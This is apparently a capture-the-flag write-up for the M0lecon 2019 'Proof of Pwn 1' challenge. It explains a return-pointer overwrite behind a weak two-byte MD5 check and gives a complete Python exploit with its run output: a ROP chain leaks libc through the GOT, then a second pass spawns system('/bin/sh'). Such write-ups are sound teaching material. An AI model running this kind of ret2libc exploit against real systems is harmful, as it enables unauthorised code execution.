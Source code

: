 # M0lecon CTF 2019 - Proof of Pwn 1

We are given an ELF binary with no stack canaries protections and no PIC.
```
$ checksec proof_of_pwn 
[INFO]:  Opening binary proof_of_pwn

arch                            x86
bits                            64
endian                          little
os                              linux
static                          False
stripped                        True
canary                          False
nx                              True
pic                             False
relocs                          False
sanitiz                         False
```

The vulnerability lies in this function

```c
void __cdecl sub_400BED()
{
  __int64 v0; // [rsp+20h] [rbp-20h]
  __int64 v1; // [rsp+28h] [rbp-18h]
  __int64 v2; // [rsp+30h] [rbp-10h]
  __int64 v3; // [rsp+38h] [rbp-8h]
  __int64 vars0; // [rsp+40h] [rbp+0h]
  __int64 retaddr; // [rsp+48h] [rbp+8h]

  sub_400A68(&v0);
  sub_400ABF(&v0);
  puts("Now give me your block data: ");
  HIDWORD(v3) = read(0, &qword_6020E0, 0x80uLL);
  if ( !(unsigned int)sub_400B14((__int64)&qword_6020E0, SHIDWORD(v3), (__int64)&v0) )
  {
    puts("Go mine somewhere else!!\n");
    exit(1);
  }
  v0 = qword_602100;
  v1 = qword_602108;
  v2 = qword_602110;
  v3 = qword_602118;
  vars0 = qword_602120;
  retaddr = qword_602128; // WE CONTROL THE RETURN POINTER
  puts("Block successfully mined. Bye!\n");
}
```

To reach the ret instruction we need to pass a check, otherwise the program will exit.

```c
signed __int64 __fastcall sub_400B14(__int64 a1, __int64 a2, __int64 a3)
{
  __int64 v4; // [rsp+8h] [rbp-98h]
  char v5[16]; // [rsp+20h] [rbp-80h]
  char v6; // [rsp+30h] [rbp-70h]
  int j; // [rsp+98h] [rbp-8h]
  int i; // [rsp+9Ch] [rbp-4h]

  v4 = a3;
  MD5_Init(&v6);
  MD5_Update(&v6, a1, a2);
  MD5_Final(v5, &v6);
  for ( i = 0; i <= 15; ++i )
    printf("%02x", (unsigned __int8)v5[i]);
  putchar(10);
  for ( j = 0; j <= 1; ++j )
  {
    if ( *(_BYTE *)(j + v4) != v5[j] )
      return 0LL;
  }
  return 1LL;
}
```

Since only the first two bytes of the hash are checked we can try to bruteforce it.

We're gonna trigger the vulnerability a first time to execute a short ropchain which will leak an address from the GOT, to compute the libc_base, and then we'll return to our vulnerability.

Now we know the addresses of functions and strings from libc in memory.

We're gonna exploit the vulnerability a second time to hijack the execution to `system("/bin/sh")`

### Exploit
```python
def brute_payload(proof, pay):
	def md5(data):
		import hashlib
		m = hashlib.md5()
		m.update(data)
		return m.hexdigest().encode("utf-8")
	i = 0
	while True:
		pay2 = (pay+str(i).encode("utf-8"))[:128]
		if proof[:4] == md5(pay2)[:4]:
			return pay2
		i += 1

from pwnapi import *

log.level      = 1
libc           = ELF("./libc.so.6")
context.binary = ELF("./proof_of_pwn")
p              = context.getprocess()

proof = p.recvline().split()[-1]
log.info("required proof: {}".format(proof.decode("utf-8")))

rop       = p64(context.binary.findgadgetbystr("pop rdi;ret"))
rop      += p64(context.binary.sym.got.puts)
rop      += p64(context.binary.sym.plt.puts)
rop      += p64(0x00400bed) # check function
payload   = brute_payload(proof, fit({72:rop}))

p.sendafter(b"\n", payload)
p.recvuntil(b"\n\n")

puts      = u64(p.recvline().strip().ljust(8, b"\x00"))
libc_base = puts - libc.sym.puts
system    = libc_base + libc.sym.system
binsh     = libc_base + next(libc.search("/bin/sh"))
log.info("libc base:      0x{:x}".format(libc_base))
log.info("system:         0x{:x}".format(system))
log.info("binsh:          0x{:x}".format(binsh))

proof = p.recvline().split()[-1]
log.info("required proof: {}".format(proof.decode("utf-8")))

rop      = p64(context.binary.findgadgetbystr("pop rdi;ret"))
rop     += p64(binsh)
rop     += p64(system)
rop     += p64(context.binary.findgadgetbystr("mov eax, 0;leave;ret"))
payload  = brute_payload(proof, fit({72:rop}))

p.sendafter(b": \n", payload)
p.recvuntil(b"\n\n")

p.sendline(b"cat flag.txt; exit")
log.info("flag:           {}".format(p.recvall().decode("utf-8")))

p.close()
```

### Output
```
$ python exploit.py     
[INFO]:  Opening binary ./libc.so.6

arch                            x86
bits                            64
endian                          little
os                              linux
static                          False
stripped                        True
canary                          True
nx                              True
pic                             True
relocs                          False
sanitiz                         False

[INFO]:  Opening binary ./proof_of_pwn

arch                            x86
bits                            64
endian                          little
os                              linux
static                          False
stripped                        True
canary                          False
nx                              True
pic                             False
relocs                          False
sanitiz                         False

[INFO]:  Process started with PID 17148 ./proof_of_pwn
[INFO]:  required proof: 289510e3b590959fb0b0177fe57612d3
[INFO]:  libc base:      0x7f10f5e8e000
[INFO]:  system:         0x7f10f5ed3390
[INFO]:  binsh:          0x7f10f601ad57
[INFO]:  required proof: b222d1572a57e35c7416ff32e234f90a
[INFO]:  flag:           ptm{p00r_8rut3f0rc1ng_c4n_h3lp}
[INFO]:  Process 17148 exited with code -7
```

You can download [here](https://github.com/ndaprela/CTF/tree/master/2019/m0lecon/proof_of_pwn1) the challenge and the exploit.
